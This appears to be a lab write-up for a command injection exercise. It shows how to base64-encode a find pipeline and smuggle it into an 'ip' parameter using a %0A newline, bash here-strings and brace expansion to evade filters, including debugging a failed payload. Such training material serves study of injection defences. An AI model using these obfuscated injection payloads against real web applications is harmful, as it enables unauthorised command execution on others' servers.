

## Exercises

### Question 1 — Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1

First encoded the full target command locally:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64

ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=
```

**Breakdown:**

- `echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1'` prints the exact target command text, with `-n` suppressing the trailing newline `echo` would otherwise add
- `|` pipes that text into the next command
- `base64` encodes the piped-in text into a base64 string

Then tried sending the decode-and-run payload at the target, with the command, the flag, and the encoded string all folded into a single brace expansion:

```
ip=127.0.0.1%0Abash<<<$({base64,-d,<<<,ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=})
```

**Breakdown:**

- `127.0.0.1` is the baseline IP value
- `%0A` is the new-line injection operator
- `bash<<<$(...)` feeds whatever the subshell produces into a new `bash` instance as a here-string, to be executed
- `{base64,-d,<<<,ZmluZ...=}` is a single brace expansion, intended to expand to `base64 -d <<< ZmluZ...=`, decoding the base64 string by feeding it into `base64 -d` via a here-string

This got through without triggering any filter, but came back with no additional output at all beyond the usual ping statistics.

![[Pasted image 20261124172246.png]]

Thinking it through, `<` is a shell metacharacter that the parser recognises as its own token the moment it's unquoted, whether or not there's any whitespace around it, the same way `echo<<<test` parses identically to `echo <<< test`. That happens before any expansion runs, brace expansion included. So having `<<<` sitting inside the braces was splitting the line apart right there, rather than leaving `{base64,-d,<<<,ZmluZ...=}` as one unbroken token for brace expansion to work on as a whole. Whatever actually ran as a result wasn't the intended command, and any error it produced evidently wasn't something the application's output displayed.

Moving `<<<` outside the braces instead:

```
ip=127.0.0.1%0Abash<<<$({base64,-d}<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

**Breakdown:**

- `{base64,-d}` is the brace expansion, now holding only `base64` and `-d`, expanding cleanly to `base64 -d`
- `<<<ZmluZ...=` feeds the base64 string into that decode command as a here-string, now sitting outside the braces where it no longer interferes with the expansion
- `$(...)` captures the decoded output, which `bash<<<` then feeds into a fresh `bash` instance as a here-string, running it as a full command line

That worked, and the response came back with the output of the full `find`/`grep`/`tail` pipeline.



**Answer:** —REDACTED—